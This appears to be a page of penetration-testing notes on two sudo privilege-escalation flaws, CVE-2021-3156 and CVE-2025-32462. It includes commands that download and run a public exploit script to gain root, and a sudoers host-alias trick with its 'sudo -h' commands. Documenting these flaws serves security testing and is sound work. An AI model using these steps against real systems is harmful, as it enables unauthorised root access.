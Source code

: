 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# Sudo

## SudoEdit

`sudo` < `1.9.5p2` is susceptible to a heap-based buffer overflow ([CVE-2021-3156](https://nvd.nist.gov/vuln/detail/cve-2021-3156)) and a [PoC](https://github.com/worawit/CVE-2021-3156/tree/main) is available.

{% code overflow="wrap" %}
```bash
# Check the target's sudo version
$ sudo --version
Sudo version 1.8.31

# Download the PoC to the target
$ wget https://raw.githubusercontent.com/worawit/CVE-2021-3156/refs/heads/main/exploit_nss.py

# Assign execute permissions
$ chmod +x exploit_nss.py

# Run the exploit
$ ./exploit_nss.py
...
# id
uid=0(root) gid=0(root) groups=0(root),998(apache),1004(anita)
```
{% endcode %}

## Host Bypass

Sudo versions < `1.9.17p1` are vulnerable to [CVE-2025-32462](https://nvd.nist.gov/vuln/detail/CVE-2025-32462). If the `sudoers` file lists a host that isn't the current machine (and isn't `ALL`), users could exploit that to run commands as if they were on that other host.&#x20;

For example, in the below `sudoers` configuration:

{% code title="sudoers" overflow="wrap" %}
```bash
# Host alias specification
Host_Alias     SERVERS        = host-1.example.local, host-2.example.local
Host_Alias     PROD           = host-1.example.local
x7331           SERVERS, !PROD = NOPASSWD:ALL
```
{% endcode %}

The rule expands to...

```bash
(host-1.example.local, host-2.example.local) and NOT (host-1.example.local)
```

...which evaluates to only `host-2.example.local` — so it permits `x7331` `NOPASSWD` on `host-2`:

{% code overflow="wrap" %}
```bash
# Test for sudo privileges
x7331@host-1:~$ sudo -l
Password:
Sorry, user x7331 may not run sudo on host-1.

# Test sudo with the internal host referenced in logs
x7331@host-1:~$ sudo -h host-2.example.local -l
Matching Defaults entries for x7331 on host-2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User user may run the following commands on host-2:
    (root) NOPASSWD: ALL
    (root) NOPASSWD: ALL

```
{% endcode %}

